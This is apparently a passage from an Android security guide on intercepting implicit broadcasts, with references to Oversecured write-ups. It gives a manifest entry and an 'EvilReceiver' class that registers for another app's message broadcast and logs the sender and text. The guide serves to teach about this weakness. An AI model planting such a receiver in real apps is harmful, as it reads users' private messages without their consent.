 Since implicit broadcasts are delivered to each receiver registered on the device, across all apps, you can register the following broadcast receiver to intercept a user's broadcast:

- `AndroidManifest.xml`

    ```xml
    <receiver android:name=".EvilReceiver">
        <intent-filter>
            <action android:name="com.victim.messenger.IN_APP_MESSAGE" />
        </intent-filter>
    </receiver>
    ```

- `EvilReceiver.java`

    ```java
    public class EvilReceiver extends BroadcastReceiver {
        public void onReceive(Context context, Intent intent) {
            if ("com.victim.messenger.IN_APP_MESSAGE".equals(intent.getAction())) {
                // log intercepted data
                Log.d("d", "From: " + intent.getStringExtra("from"));
                Log.d("d", "Text: " + intent.getStringExtra("text"));
            }
        }
    }
    ```

# References

- [Android Developers: Intents and Intent Filters](https://developer.android.com/guide/components/intents-filters)
- [Oversecured: Interception of Android implicit intents](https://blog.oversecured.com/Interception-of-Android-implicit-intents/)
- [Oversecured: Android Access to app protected components](https://blog.oversecured.com/Android-Access-to-app-protected-components/)

